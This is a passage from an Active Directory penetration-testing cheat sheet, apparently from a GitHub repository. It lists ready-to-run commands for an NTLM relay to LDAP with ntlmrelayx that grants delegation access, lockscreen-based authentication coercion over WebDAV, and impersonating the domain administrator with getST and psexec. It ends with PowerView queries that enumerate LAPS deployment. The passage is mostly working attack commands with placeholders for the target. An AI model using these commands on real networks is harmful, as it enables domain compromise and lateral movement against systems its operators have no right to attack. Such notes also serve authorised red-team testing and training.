 ````
```
- Didn't test dnstool for this attack

#### Start NTLMRelay
- Or use `ldaps://<DC IP>` if it doesn't require binding and ldap requires signing
```
sudo python3 ntlmrelayx.py -t ldap://<DC> --delegate-access --escalate-user FAKE01$ --serve-image ./image.jpg --http-port 8080
```

#### Change lockscreen image
- https://github.com/nccgroup/Change-Lockscreen
```
change-lockscreen -webdav \\webdav@8080\
```

#### Impersonate any user
```
getST.py <DOMAIN>/FAKE01 -spn cifs/<TARGET FQDN> -impersonate administrator -dc-ip <DC IP>
export KRB5CCNAME=administrator.ccache
Psexec.py -k -no-pass <TARGET FQDN>
```

## LAPS
- On a computer, if LAPS is in use, a library AdmPwd.dll can be found in the C:\Program Files\LAPS\CSE directory.
- Another great tool to use: https://github.com/leoloobeek/LAPSToolkit

#### Check if LAPS is installed on local computer
```
Get-Childitem 'C:\Program Files\LAPS\CSE\AdmPwd.dll'
```

### Check existence of LAPS in the domain
#### Check for existence of the ms-mcs-admpwd attribute
```
Get-AdObject 'CN=ms-mcs-admpwd,CN=Schema,CN=Configuration,DC=<DOMAIN>,DC=<DOMAIN>'
```

#### Check for computers with LAPS installed
```
Get-DomainComputer | Where-object -property ms-Mcs-AdmPwdExpirationTime | select-object samaccountname
```

#### Check for GPO's with LAPS in its name
```
Get-DomainGPO -Identity *LAPS*
```

#### Check for OU's with LAPS
```
Get-DomainOU -FullData | Get-ObjectAcl -ResolveGUIDs | Where-Object { ($_.ObjectType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty') } | ForEach-Object { $_ | Add-Member NoteProperty 'IdentitySID' $(Convert-NameToSid $_.IdentityReference).SID; $_ }
```

#### Check which computers is part of the OU
```
Get-DomainOU -OUName <NAME> | %{Get-DomainComputer -ADSpath $_}
```

#### Check to which computers the LAPS GPO is applied to
```
Get-DomainOU -GPLink "<Distinguishedname from GET-DOMAINGPO>" | select name, distinguishedname
Get-DomainComputer -Searchbase "LDAP://<distinguishedname>" -Properties Distinguishedname
```
````